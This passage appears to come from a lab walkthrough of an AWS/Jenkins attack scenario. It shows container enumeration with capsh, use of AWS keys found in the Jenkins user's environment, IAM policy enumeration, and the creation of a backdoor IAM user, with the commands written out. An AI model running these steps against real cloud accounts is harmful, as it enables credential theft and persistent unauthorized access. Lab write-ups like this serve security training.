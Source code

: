 ![alt](/images/posts/aws72.webp)

## CONTAINER ENUMERATION
- After gaining access to the system, it is important to continue with traditional enumeration. However, when dealing with a container as in this case, we will need to check different paths, as will be specified below.
```
	cat /proc/mounts
```
![alt](/images/posts/aws73.webp)
- Now that we have discovered the container is Docker, we will need to analyze the permissions it contains using the following command, focusing on the selected values, which are encoded.
```
	cat /proc/1/status | grep "Cap"
```
![alt](/images/posts/aws74.webp)
- Since they are encoded, we will need to decode them, and for that, we will use the tool capsh.
```
	capsh --decode=<ID> | tr ',' '\n' | grep "admin"
```
![alt](/images/posts/aws75.webp)
- Now that we have identified the container is running with elevated privileges, we will need to escalate privileges. Remember that the pipeline used AWS keys, so we will look for them in the environment variables of the Jenkins user.
![alt](/images/posts/aws76.webp)

## COMPROMISING THE LAB 
- We start by creating a new user using the AWS keys we found.
```
	aws configure --profile=CompromisedJenkins
```
![alt](/images/posts/aws77.webp)
- Now we verify that we are using the credentials of the compromised user.
```
	aws --profile <user> sts get-caller-identity
```
![alt](/images/posts/aws78.webp)

- To enumerate our privileges, we will need to list the user policies-whether inline, managed, or group policies.
```
	aws --profile <username> iam list-user-policies --user-name <identity_name>
	aws --profile <username> iam list-attached-user-policies --user-name <identity_name>
	aws --profile <username> iam list-groups-for-user --user-name <identity_name>
```
![alt](/images/posts/aws79.webp)
- Now that we have found only one user policy, we will enumerate it using the following command:
```
	aws --profile <username> iam list-user-policies --user-name <identity_name> --policy-name <policy_name>
```
![alt](/images/posts/aws80.webp)
### CREATING BACKDOOR USER
- Since our admin user has unrestricted administrative privileges, we will proceed to create a backdoor user.
```
	aws --profile <username> iam create-user --user-name <backdoor>
```
![alt](/images/posts/aws81.webp)